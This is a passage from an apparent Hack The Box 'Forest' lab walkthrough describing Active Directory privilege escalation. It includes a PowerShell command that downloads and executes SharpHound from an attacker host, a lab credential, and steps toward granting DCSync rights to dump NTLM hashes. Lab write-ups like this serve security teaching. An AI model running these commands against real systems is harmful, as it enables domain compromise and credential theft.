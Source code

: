 ## Privilege Escalation

During enumeration of `svc-alfresco`'s account, I noticed that the account has WriteDacl permissions. This is evident from the BloodHound collection.

```
PS C:\Users\svc-alfresco\appdata> iex (new-object net.webclient).downloadstring('http://10.10.14.192/SharpHound.ps1')
PS C:\Users\svc-alfresco\appdata> Invoke-Bloodhound -CollectionMethod All -LDAPPort 389 -LDAPUser svc-alfresco -LDAPPass s3rvice
```

I'll leave it as an exercise how to transfer the zipped JSON files over to your attacking machine for analysis.

<a class="image-popup">
![c39ad897.png](/assets/images/posts/forest-htb-walkthrough/c39ad897.png)
</a>

Did you see it? Not only that, `svc-alfresco` has the power to create domain users as well!

<a class="image-popup">
![56d7c428.png](/assets/images/posts/forest-htb-walkthrough/56d7c428.png)
</a>


With the WriteDacl permission, we can grant the newly created user with DCSync rights to dump the NTLM hashes. But first, we need enter into the **Exchange Trusted Subsystem** group.

```
PS C:\Users\svc-alfresco\appdata> Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members svc-alfresco
```

This is important. We need to relogin to `svc-alfresco` for the group membership to take effect.

<a class="image-popup">
![b11bf806.png](/assets/images/posts/forest-htb-walkthrough/b11bf806.png)
</a>
